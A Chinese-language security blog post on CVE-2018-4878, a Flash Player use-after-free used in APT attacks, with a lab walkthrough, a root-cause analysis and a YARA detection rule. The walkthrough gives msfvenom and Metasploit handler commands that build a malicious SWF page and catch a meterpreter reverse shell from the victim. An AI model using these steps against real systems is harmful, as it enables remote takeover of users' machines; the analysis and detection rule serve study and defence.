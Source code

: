 ```yaml
---
layout:     post
title:      APT常用文档漏洞--CVE-2018-4878
subtitle:   CVE-2018-4878
date:       2018-11-05
author:     DC
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - CVE-2018-4878
    - RCE
    - VUL
    - APT
---
```




# CVE-2018-4878

开源文档 [1](https://github.com/anbai-inc/CVE-2018-4878) 

#### 漏洞简介：

2月1日， Adobe官方发布了Adobe Flash Player系列产品的安全通告（APSA18-01），一个最新的Adobe Flash零日漏洞被发现针对韩国地区的人员发起攻击，该0day漏洞编号为CVE-2018-4878，目前最新版本28.0.0.137及其以前版本的Adobe Flash Player均受漏洞影响，Adobe官方将于2月5日发布漏洞补丁。

攻击者通过构造特殊的Flash链接，当用户用浏览器/邮件/Office访问此Flash链接时，会被**“远程代码执行”**，并且直接被getshell。

#### 漏洞利用

环境测试：

攻击机：kali

目标靶机：win7x64 +IE8.0+FLASH player28.0.0.137

cve-2018-4878.py用于生成exp

1. 利用msf生成反弹shell的exp

Msfvenom -p windows/meterpreter/reverse_tcp lhost = [IP] lport = [port] -f python>shellcode.txt

将生成的shellcode 拷贝到python脚本中
 ![img](file:///C:\Users\琮\AppData\Local\Temp\msohtmlclip1\01\clip_image002.jpg)

2. 执行cve-2018-4878.py,即可生成恶意的exploit.swf和利用exploit.swf的index.html

3.在msf 下进行监听设置

msf > use exploit/multi/handler

msf exploit(handler) > set payload  windows/meterpreter/reverse_tcp

msf exploit(handler) > set lhost  [IP]

msf exploit(handler) > set lport  [port]

msf exploit(handler) > exploit

![img](file:///C:\Users\琮\AppData\Local\Temp\msohtmlclip1\01\clip_image004.jpg)

4. 当打开目标恶意的index.html页面时(需手动允许)，即可触发反弹shell

![img](file:///C:\Users\琮\AppData\Local\Temp\msohtmlclip1\01\clip_image006.jpg)

![img](file:///C:\Users\琮\AppData\Local\Temp\msohtmlclip1\01\clip_image008.jpg)



## **漏洞原理分析**

CVE-2018-4878与2017年10月发现的0Day 漏洞CVE-2017-11292一样，都位于Flash的com.adobe.tvsdk包中。CVE-2018-4878是一个UAF漏洞，需要借助强制GC或者刷新页面来触发该漏洞。

POC关键代码如下：

[![2.png](https://image.3001.net/images/20180206/15179106558093.png!small)](https://image.3001.net/images/20180206/15179106558093.png)

MyListener是一个继承自DRMOperationCompleteListener类的对象：

[![3.png](https://image.3001.net/images/20180206/15179106807127.png!small)](https://image.3001.net/images/20180206/15179106807127.png)

将MyListener对象注册为MediaPlayer对象的一个通知回调接口，然后释放MyListener对象，但是在MediaPlayer对象中仍然保存着MyListener对象，当强制系统进行垃圾回收时，MediaPlayer对象的回调会执行，但此时MyListener已经被释放，从而导致了UAF漏洞。

下图是POC在IE运行时crash位置：

[![4.png](https://image.3001.net/images/20180206/15179107242543.png!small)](https://image.3001.net/images/20180206/15179107242543.png)

rcx正是MediaPlayer对象里的DRMManager成员，偏移0×18处存放的正是MyListener对象，可以看到MyListener对象已经被释放了。

[![5.png](https://image.3001.net/images/20180206/15179107451213.png!small)](https://image.3001.net/images/20180206/15179107451213.png)





YARA:

```
rule crime_ole_loadswf_cve_2018_4878
{
meta:
description = "Detects CVE-2018-4878"
vuln_type = "Remote Code Execution"
vuln_impact = "Use-after-free"
affected_versions = "Adobe Flash 28.0.0.137 and earlier versions"
mitigation0 = "Implement Protected View for Office documents"
mitigation1 = "Disable Adobe Flash"
weaponization = "Embedded in Microsoft Office first payloads"
actor = "Purported North Korean actors"
reference = "hxxps://www[.]krcert[.]or[.kr/data/secNoticeView.do?bulletin_writing_sequence=26998"
report = "https://www.flashpoint-intel.com/blog/targeted-attacks-south-korean-entities/"
author = "Vitali Kremez, Flashpoint"
version = "1.1"

strings:
// EMBEDDED FLASH OBJECT BIN HEADER
$header = "rdf:RDF" wide ascii

// OBJECT APPLICATION TYPE TITLE
$title = "Adobe Flex" wide ascii

// PDB PATH 
$pdb = "F:\\work\\flash\\obfuscation\\loadswf\\src" wide ascii

// LOADER STRINGS
$s0 = "URLRequest" wide ascii
$s1 = "URLLoader" wide ascii
$s2 = "loadswf" wide ascii
$s3 = "myUrlReqest" wide ascii

condition:
all of ($header*) and all of ($title*) and 3 of ($s*) or all of ($pdb*) and all of ($header*) and 1 of ($s*)
}
```

